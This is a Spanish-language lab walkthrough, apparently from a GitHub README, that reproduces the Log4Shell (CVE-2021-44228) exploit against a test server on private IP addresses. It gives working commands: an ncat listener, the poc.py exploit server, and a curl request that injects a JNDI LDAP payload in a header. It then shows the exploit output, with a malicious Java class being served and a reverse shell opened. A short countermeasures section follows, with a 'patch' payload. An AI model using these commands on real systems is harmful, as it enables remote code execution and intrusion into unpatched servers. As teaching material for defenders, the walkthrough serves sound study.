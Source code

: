 ```sh
mv jdk-8u20-linux-x64.tar.gz log4j-shell-poc/
cd log4j-shell-poc/
tar -xf jdk-8u20-linux-x64.tar.gz
```

En un terminal *1* ejecutamos lo siguiente:
```sh
ncat -lp 12345
```
En un terminal *2* lo siguiente:
```sh
./poc.py --serversip 192.168.56.100 --webport 8000 --ncip 192.168.56.1 --ncport 12345
```
El ataque como tal, lanzado en un terminal *3*, consiste en lo siguiente:
```sh
curl 192.168.56.200:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.56.100:1389/a}'
```

Como resultado, se tiene que en el terminal:
1. Se pueden ejecutar comandos de manera arbitraria
   > 
2. Ha servido el fichero *Exploit.class*, primero atendiendo la petición LDAP y luego sirviéndolo como tal mediante la petición HTTP redirigida
   ```text
	[!] CVE: CVE-2021-44228
	[!] Github repo: https://github.com/kozmer/log4j-shell-poc

	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	[+] Exploit java class created success
	[+] Setting up LDAP server

	[+] Send me: ${jndi:ldap://192.168.56.100:1389/a}

	[+] Starting Webserver on port 8000 http://0.0.0.0:8000
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	Send LDAP reference result for a redirecting to http://192.168.56.100:8000/Exploit.class
	192.168.56.200 - - [02/Jan/2022 01:50:41] "GET /Exploit.class HTTP/1.1" 200 -
	```
3. Se ha quedado a la espera de una respuesta del servidor atacado que, como está ejecutando el reverse shell, no llega

-----------------------------------------------------------------------------------
### Contramedidas

Tal y como se vio en [este artículo](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/), existen contramedidas, pero además hay un [parche que se puede lanzar como un ataque](https://www.lunasec.io/docs/blog/log4shell-live-patch/), que consiste en usar como carga mediante *JNDI* lo siguiente *${jndi:ldap://patch.log4shell.com:1389/a}*. El "ataque" como tal quedaría de la forma siguiente:
```sh
curl 192.168.56.200:8080 -H 'X-Api-Version: ${jndi:ldap://patch.log4shell.com:1389/a}'
```
